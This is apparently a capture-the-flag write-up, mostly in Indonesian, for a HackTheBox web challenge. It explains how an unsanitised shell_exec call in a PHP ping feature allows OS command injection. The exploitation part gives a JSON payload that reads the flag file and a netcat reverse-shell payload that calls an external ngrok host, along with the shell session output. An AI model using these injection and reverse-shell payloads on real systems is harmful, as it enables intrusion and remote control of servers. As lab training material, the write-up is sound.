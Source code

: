 Description :

During Pandora’s training, the Gunhead AI combat robot had been tampered with and was now malfunctioning, 
causing it to become uncontrollable. With the situation escalating rapidly, 
Pandora used her hacking skills to infiltrate the managing system of Gunhead and urgently needs to take it down.

Enumeration:

Dalam tantangan ini, kita dapat mengunduh file yang disediakan:
Tapi sebelum kita melihat kode sumbernya, mari bermain dengan aplikasinya.

Status:
![image](https://user-images.githubusercontent.com/113104087/230796394-a5810d3b-b6aa-427c-baa5-15d1bd247e52.png)

Ini akan menunjukkan status "Integer".

Kebutuhan :
![image](https://user-images.githubusercontent.com/113104087/230796408-79619d12-829d-478d-ba34-32fd9d5655e8.png)

Tunjukkan apa yang dibutuhkan "Integer".

Perintah:

![image](https://user-images.githubusercontent.com/113104087/230796422-595ebea0-ba78-4ce9-bfe3-e07c94d3da5e.png)

Oh! Sepertinya kita bisa menjalankan beberapa perintah?
Ayo ketik `/help` :
![image](https://user-images.githubusercontent.com/113104087/230796434-ef8f46e7-bc1d-4086-98ff-f19b52eb12a8.png)

![image](https://user-images.githubusercontent.com/113104087/230796438-2a9c8085-9abf-4da7-b924-16383c75da41.png)

Dingin! Kita dapat `/clear` command prompt, `/ping` [device IP] untuk mengecek sistem pengintaian, `/storage` untuk mengecek penyimpanan.

Hmm… Saya bisa mencium beberapa injeksi perintah OS !
Mari kita lihat kode sumbernya!
![image](https://user-images.githubusercontent.com/113104087/230796469-15050c6f-3abc-4fd1-aa41-d62393c023a6.png)
Struktur aplikasi web menggunakan model yang disebut MVC, atau Model-View-Controller .

Di dalam `controllers/ReconController.php`, ada `ping()`metode:
```js
<?php
class ReconController
{
    public function index($router)
    {
        return $router->view('index');
    }

    public function ping($router)
    {
        $jsonBody = json_decode(file_get_contents('php://input'), true);

        if (empty($jsonBody) || !array_key_exists('ip', $jsonBody))
        {
            return $router->jsonify(['message' => 'Insufficient parameters!']);
        }

        $pingResult = new ReconModel($jsonBody['ip']);

        return $router->jsonify(['output' => $pingResult->getOutput()]);
    }
}
```
Metode ini `ping()` akan mendapatkan badan JSON yang didekodekan, dan mem-parsing `ip` kunci ke `ReconModel()`.

Apa itu `ReconModel()`?

Di dalamnya `models/ReconModel.php` sangat menarik bagi kami:
```js
<?php
#[AllowDynamicProperties]

class ReconModel
{   
    public function __construct($ip)
    {
        $this->ip = $ip;
    }

    public function getOutput()
    {
        # Do I need to sanitize user input before passing it to shell_exec?
        return shell_exec('ping -c 3 '.$this->ip);
    }
}
```
Seperti yang Anda lihat, `ReconModel` metode publik kelas `getOutput()` menggunakan fungsi bernama `shell_exec()`, yang menjalankan perintah OS !!
Jika ada input yang tidak divalidasi dan disanitasi masuk ke sana, kita dapat mencapai Eksekusi Kode Jarak Jauh (RCE)!!
Ingat, sedang $ipdiurai dari badan JSON dalam ping()metode!!
Karena itu, kita bisa mendapatkan RCE melalui `/ping` perintah!
```
EKSPLOITASI
```
Sekarang, mari kita coba ping 127.0.0.1, atau localhost:
![image](https://user-images.githubusercontent.com/113104087/230796579-eede959b-a938-451c-a2f0-db90d34327b3.png)
Riwayat HTTP Burp Suite:
![image](https://user-images.githubusercontent.com/113104087/230796589-35578118-4f38-4c84-ae03-9902199c73dd.png)

Saat kita mengetik perintah itu, itu akan mengirimkan permintaan POST ke `/api/ping`, dengan badan JSON.
Jika tidak ada kesalahan, itu memberi kami data JSON, yang merupakan keluaran perintah.
Berbekal informasi di atas, kami dapat mengirimkan permintaan itu ke Repeater Burp Suite, dan menyuntikkan beberapa perintah!!
Setelah beberapa pengujian `||` bekerja!
![image](https://user-images.githubusercontent.com/113104087/230796630-6efbc144-c3a3-43f2-813b-2eb6e1b3d0f0.png)

Bagus! Sekarang kami dapat mengonfirmasi bahwa ada kerentanan RCE melalui shell_exec!
Ayo baca bendera!
```js
{
    "ip":" || cat ../flag.txt"
}
```
![image](https://user-images.githubusercontent.com/113104087/230796660-602e4716-0efc-4668-af53-30cb00f6e85f.png)

Atau, bisa mendapatkan shell :D

```
ngrok tcp port
nc -lnvp port
```
payload :
```
{
    "ip":" || nc 0.tcp.ap.ngrok.io 17969 -e '/bin/sh'"
}
```
nc -lnvp 4444
```
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 56612
whoami;hostname;id;ip a
www
ng-gunhead-axuru-69c8bcb87c-nsl6z
uid=1000(www) gid=1000(www) groups=1000(www)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
26: eth0@if27: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP 
    link/ether fa:1e:e5:23:24:12 brd ff:ff:ff:ff:ff:ff
    inet 10.244.17.207/32 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::f81e:e5ff:fe23:2412/64 scope link 
       valid_lft forever preferred_lft forever
cat ../flag.txt
```

flag : `HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}`
